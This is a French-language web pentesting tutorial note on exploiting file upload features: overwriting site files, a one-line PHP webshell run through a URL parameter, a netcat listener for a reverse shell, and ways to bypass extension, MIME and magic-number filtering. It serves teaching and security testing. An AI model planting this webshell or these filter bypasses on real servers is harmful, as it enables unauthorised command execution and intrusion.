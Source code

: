 
Après avoir [analyser toutes les routes du sites](Decouvertes_du_contenu), on a maintenant une idée d'**où sont stocké les fichiers** que l'on upload.

## __Overwriting Files__

Si le fichier que nous uploadons sera situé au même endroit que les assets du site, nous pouvons écraser un ancien fichier.

![[overwriting1.png]]

On voit que le nom du fichier est *spaniel.jpg*, on peut donc renomer un fichier spaniel.jpg et celui-ci écrasera l'ancien fichier.

![[overwriting2.png]]


## __Remote Controle Execution__

Admettons que nous avons trouvé que nos images sont stocké dans le dossier *uploads/*, on peut se rendre dans ce dossier et nous verrons apparaitre notre image.

![[webshell1.png]]

### Webshell

On peut maintenant essayer d'upload un **executeur de commande**, pour ce faire nous allons créer un fichier PHP contenant ce code :

```php
<?php  
    echo system($_GET["cmd"]); // affiche le resultat de la commande passé en paramètre  
?>
```

Maintenant si nous nous rendons sur notre fichier, nous pouvons mettre notre commande dans l'url
**`webshell.php?cmd=id;whoami;ls`**

![[webshell2.png]]


### Reverse shell

Pour en savoir plus sur les reverse shells, rendez vous dans **[[Reverse_Shell]]**.

On peut donc upload notre reverse shell. Attention notre reverse shell doit être dans le même language que le serveur web. On peut connaitre 

Ensuite il faut qu'on **démarre un serveur Netcat** :

```shell
user@ip:~$ rlwrap nc -vnlp 1234
```

Puis lorsque nous allons nous rendre là où est sauvegardé notre fichier, notre reverse shell aura démarré.


## __Filtering__

Il y a principalement 3 manière de filtrer les fichiers entrant.

### Extension validation

Un code de validation de l'extension pourrai ressembler à celà :

```javascript
let extension = fileName.split(".")[1]; // regarde la 2e partie du nom du fichier

if(extension != "jpg" && extension != "jpeg"){ // vérifie s'il n'est pas en .jpeg
	console.log("Mauvais format !");
	return; // ne donne pas suite à la requête
}
```

Pour bypass ce type de scénario, on doit tout simplement **changer l'extension** de notre fichier et mettant par exemple  **`shell.jpg.php`**.


On peut aussi avoir un autre type de filtrage ressemblant à celà :

```javascript
let decoupage = fileName.split("."); // decoupe le nom du fichier avec les .
let extension = decoupage[decoupage.length - 1]; // recupere la derniere partie du nom

if(extension == "php"){ // vérifie s'il est en .php
	console.log("Mauvais format !");
	return; // ne donne pas suite à la requête
}
```

Pour bypass ce type de scénario, on peut remplacer l'extension **`.php`** par d'[autres extensions](https://en.wikipedia.org/wiki/PHP) pouvant exécuter du PHP. Par exemple : *.phtml*, *.phar* ou encore *.php5*

### MIME Validation

Dans les requêtes HTTP, il y a un attribut qui qualifie le **type de fichier envoyé**, on l'appelle **MIME** (Multipurpose Internet Mail Extension).

Si l'on intercepte une requête avec [burpsuite](https://portswigger.net/burp/communitydownload) on obtiendra quelque chose comme ça :

![[MIME_validation.png]]

On peut voir la ligne **`Content-Type: image/jpeg`** qui veut dire que le document que nous essayons d'envoyer est une image en jpeg.

Pour notre shell, la ligne sera **`Content-Type: application/php`**, on doit donc la modifier pour qu'elle soit perçu comme une image.


### Magic Number

Les fichiers sont encodé en **ASCII** et chaque type de fichier a une **signature**, c'est une suite de caractère qui dit de quel catégorie ils font partie. On peut par exemple chercher dans une [liste de signature](https://en.wikipedia.org/wiki/List_of_file_signatures) quelle est la signature d'un fichier PNG.

Si on ouvre une image PNG avec **[hexeditor](https://www.kali.org/tools/ncurses-hexedit/)**, on obtiendra un résultat similaire à ça :

![[Magic_Number1.png]]

On peut voir que la signature est les 8 premiers octets du fichier, ici `89 50 4E 47 0D 0A 1A 0A`.

Pour un fichier **JPEG la signature fait 4 octets**, on doit donc **rajouter quatre caractère** au début de notre fichier php afin de les modifier.

![[Magic_Number2.png]]

![[Magic_Number3.png]]
La valeur de A est 41 en ASCII.

Une fois les octets modifiés, on se retrouve avec celà :

![[Magic_Number4.png]]

Voila, on peut maintenant upload notre fichier et il sera considéré comme un fichier JPEG.


